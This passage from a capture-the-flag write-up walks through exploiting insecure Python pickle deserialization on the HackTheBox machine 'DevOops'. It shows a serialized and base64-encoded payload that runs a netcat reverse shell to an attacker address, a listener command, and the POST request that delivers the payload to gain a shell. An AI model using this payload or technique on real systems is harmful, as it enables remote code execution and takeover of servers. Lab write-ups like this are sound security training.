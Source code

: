 Then, we can use the `dumps` method from the `pickle` module to to serialize our object:

```python
pickle.dumps(Shell('rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.54 443 >/tmp/f'))
"cposix\nsystem\np0\n(S'rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.54 443 >/tmp/f'\np1\ntp2\nRp3\n."
```


Finally, we can use the `base64` module to encoded the object as for the application's specifications:

```python
base64.urlsafe_b64encode(pickle.dumps(Shell('rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.54 443 >/tmp/f')))
'Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAtZiAvdG1wL2Y7bWtub2QgL3RtcC9mIHA7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC41NCA0NDMgPi90bXAvZicKcDEKdHAyClJwMwou'
```

I start a local lisetner using:

```bash
rlwrap nc -lnvp 443
```

And send the object to the application with the following request:

```html
POST /newpost HTTP/1.1
Host: devoops.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 76

Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAtZiAvdG1wL2Y7bWtub2QgL3RtcC9mIHA7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC41NCA0NDMgPi90bXAvZicKcDEKdHAyClJwMwou
```


Which gives me a shell:

![serialized-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/DevOops/img/serialized-19.png)
